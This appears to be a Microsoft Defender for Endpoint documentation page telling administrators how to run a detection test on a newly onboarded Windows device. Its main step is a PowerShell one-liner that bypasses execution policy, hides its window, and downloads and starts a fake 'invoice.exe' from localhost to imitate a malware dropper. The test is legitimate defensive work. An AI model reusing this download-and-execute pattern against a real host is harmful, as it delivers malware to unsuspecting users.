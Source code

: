 ```yaml
---
title: Run a detection test on a newly onboarded Microsoft Defender ATP device
description: Run the detection script on a newly onboarded device to verify that it is properly onboarded to the Microsoft Defender ATP service.
keywords: detection test, detection, powershell, script, verify, onboarding, microsoft defender advanced threat protection onboarding, clients, servers, test
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - m365-security-compliance
  - m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
---
```


# Run a detection test on a newly onboarded Microsoft Defender for Endpoint device 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


**Applies to:**
- Supported Windows 10 versions
- Windows Server 2012 R2
- Windows Server 2016
- Windows Server, version 1803
- Windows Server, 2019
- [Microsoft Defender for Endpoint](https://go.microsoft.com/fwlink/?linkid=2154037)


Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.

1. Create a folder:  'C:\test-MDATP-test'.
2. Open an elevated command-line prompt on the device and run the script:

   1. Go to **Start** and type **cmd**.

   1. Right-click **Command Prompt** and select **Run as administrator**.

      ![Window Start menu pointing to Run as administrator](images/run-as-admin.png)

3. At the prompt, copy and run the following command:

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

The Command Prompt window will close automatically. If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.

## Related topics
- [Onboard Windows 10 devices](configure-endpoints.md)
- [Onboard servers](configure-server-endpoints.md)
- [Troubleshoot Microsoft Defender for Endpoint onboarding issues](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding)
